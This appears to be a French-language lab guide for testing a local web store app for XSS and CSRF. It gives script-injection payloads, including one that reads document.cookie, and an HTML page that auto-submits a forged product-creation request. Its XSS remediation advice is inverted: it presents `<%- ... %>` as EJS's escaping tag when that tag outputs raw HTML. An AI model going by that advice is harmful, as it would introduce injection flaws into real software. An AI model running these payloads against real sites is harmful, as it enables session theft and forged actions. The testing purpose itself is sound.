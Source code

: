 ### Test 1: XSS Réfléchi (Reflected)

**Objectif**: Injecter un script qui s'exécute immédiatement quand la page est chargée.

**Procédure**:
1. Dans un champ de recherche, entrez:
   ```html
   <script>alert('XSS')</script>
   ```
2. Soumettez le formulaire et observez si une alerte apparaît

### Test 2: XSS Stocké (Stored)

**Objectif**: Injecter un script qui sera stocké dans la base de données et exécuté quand d'autres utilisateurs visitent la page.

**Procédure**:
1. Dans un champ de commentaire ou de message, entrez:
   ```html
   <script>alert(document.cookie)</script>
   ```
2. Soumettez le formulaire et vérifiez si le script s'exécute à chaque visite de la page

### Test 3: XSS DOM-Based

**Objectif**: Exploiter une vulnérabilité de manipulation DOM.

**Procédure**:
1. Si l'application utilise des paramètres dans l'URL qui sont insérés dynamiquement dans le DOM, essayez:
   ```
   http://localhost:3000/page?name=<img src="x" onerror="alert('XSS')">
   ```

### Remédiation XSS

Pour tester les solutions de remédiation:

1. Utilisez l'échappement automatique avec EJS: `<%- ... %>` au lieu de `<%= ... %>`
2. Implémentez une Content Security Policy:
   ```javascript
   app.use((req, res, next) => {
     res.setHeader('Content-Security-Policy', "default-src 'self'");
     next();
   });
   ```

## Tests CSRF

### Test 1: Formulaire Automatique

**Objectif**: Créer une page HTML qui soumet automatiquement un formulaire vers l'application cible.

**Procédure**:
1. Créez un fichier HTML contenant:
   ```html
   <html>
   <body onload="document.getElementById('csrf-form').submit()">
     <form id="csrf-form" action="http://localhost:3000/store/add_med" method="POST">
       <input type="hidden" name="name" value="Médicament Pirate">
       <input type="hidden" name="price" value="999">
       <input type="hidden" name="quantity" value="100">
     </form>
   </body>
   </html>
   ```